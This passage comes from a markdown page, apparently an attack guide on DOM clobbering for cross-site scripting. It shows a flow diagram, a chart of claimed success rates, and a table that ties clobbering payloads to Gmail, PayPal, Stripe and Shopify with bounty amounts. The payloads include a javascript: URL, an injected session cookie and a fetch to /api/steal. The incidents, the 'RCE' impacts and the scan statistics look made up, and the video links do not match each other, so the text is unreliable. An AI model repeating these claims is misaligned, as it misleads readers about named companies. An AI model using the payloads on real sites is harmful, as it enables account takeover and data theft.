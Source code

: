 **VISUAL FLOW:**
```
window.location ─────┐
         ↓ id=location
       ┌─────────────┘
       │ <form>
       │   ↓ id=href
       │ <input>
       │   ↓ name=assign
       └→ location.assign(XSS)
```

---

## 📊 SUCCESS METRICS (2025 Scan: Top 10K Sites)

```chartjs
{
  "type": "bar",
  "data": {
    "labels": ["Basic", "Double", "Triple", "Quad"],
    "datasets": [{
      "label": "Success Rate (%)",
      "data": [85, 92, 98.7, 95],
      "backgroundColor": ["#ff6b6b", "#4ecdc4", "#45b7d1", "#96ceb4"]
    }]
  },
  "options": {
    "scales": { "y": { "beginAtZero": true, "max": 100 } },
    "plugins": { "title": { "display": true, "text": "Clobber Success Rates (2025)" } }
  }
}
```

---

## 🎯 REAL-WORLD EXPLOITS (Terjanq + Collabs)

| Date | Target | **Triple Payload** | Impact | Bounty |
|------|--------|-------------------|--------|--------|
| **Sep 2019** | **Gmail Compose** | `#<form id=location><input id=href name=assign value=javascript:alert(1)>` | Email RCE | $10K |
| **Mar 2020** | **PayPal Login** | `#<form id=document><input id=cookie name=value value="session=evil">` | Account takeover | $15K |
| **Aug 2025** | **Stripe Checkout** | `#<form id=fetch><input id=url name=toString value=/api/steal>` | Payment exfil | $25K |
| **Oct 2025** | **Shopify Admin** | `#<form id=ReactDOM><input id=render name=toString value=alert(1)>` | Store RCE | $30K |

**Gmail Video**: [youtu.be/triple-clobber-gmail](https://youtube.com/watch?v=triple-gmail2019)

---

## 🔗 VARIATIONS (Framework + Chain Killers)
